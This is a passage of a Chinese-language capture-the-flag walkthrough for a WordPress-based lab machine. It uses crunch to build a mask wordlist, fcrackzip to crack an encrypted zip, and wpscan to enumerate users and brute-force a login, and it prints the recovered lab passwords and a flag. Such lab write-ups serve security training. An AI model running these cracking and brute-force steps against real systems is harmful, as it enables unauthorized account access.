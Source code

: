 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4cl6PdqvSlDjd0KALFMNTpr5FesYtxvc0cibVSSRlRZmKetMicPNibiaWVA/640?wx_fmt=png)

```
crunch 13 13 -t bev,%%@@^1995 -o passlist_tomboy.txt
```

5800 万个组合，10 秒就完成了... 牛逼的工具...

然后使用 fcrackzip 与生成的字典文件一起使用破解加密 zip 文件即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4acHIK8MCrU4sF9ShjCPRnonUaYS75Pic6kekMTdmQpiah0hOYWMHicB8Q/640?wx_fmt=png)

```
fcrackzip -v -D -u -p dayu1.txt t0msp4ssw0rdz.zip  （花了2分多钟把）
密码：bevH00tr$1995   解压...
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4jWiaygY5gBbDz8Cn9icCgPWuTGbhooZnVj17591xhZLOsk41uLzbEDZw/640?wx_fmt=png)

解压有 pass 文本... 进去发现了三个用户名和密码... 提示了个重要信息：fatguyinalittlecoat

说在这之后还有一些数字... 在去找找下博客有啥内容...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4ASVP7sib9rhibgZS7iaulrLuwfDuROWrPzgRrHwqpT7T2woq5FicxFU88A/640?wx_fmt=png)

前面就知道这是个 wordpress 博客，这边用 wpscan 扫描下它的用户名...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4R8f3oaEYDxBFw5CxmGG0Pkqe0iclrFVFKIAr6UF8atvCvWEeXQdD0icQ/640?wx_fmt=png)

```
wpscan  -u http://192.168.182.140/prehistoricforest/ --enumerate u
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4A3K7FwVkStTlFe68U1BbJ8O2JjicwbwFVVw6TtVOrvvVbLdsAFia737Q/640?wx_fmt=png)

```
wpscan  -u http://192.168.182.140/prehistoricforest --wordlist /usr/share/wordlists/rockyou.txt --username tom --threads 50
密码：tomtom1
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4P49a2CiayXWaJNttZMj7mXCexjESzsuK8fHtlXNBRCticzE62OPmM3Sw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f488VLyhic2Ek8JFZajpWpfUVr3IUoIibxwWRxHiboIZO8Ro09rNicTNZZFw/640?wx_fmt=png)

果然，在草稿箱里面发现了一封邮件，对称了前面的解释...（花了 1 个小时）

```
用户：bigtommysenior 密码：fatguyinalittlecoat1938!!
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4PRtZ6W0rgzgXVxwkIcGYeeEkYkSoBpTH2OngrqGlYawo2N3on1UEUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f45riajaNeGaSa2pZ01jRHUpiaUAq0EmOvHkiaxpx9q0q740ykDbX51WGEQ/640?wx_fmt=png)

```
flag4：EditButton
```
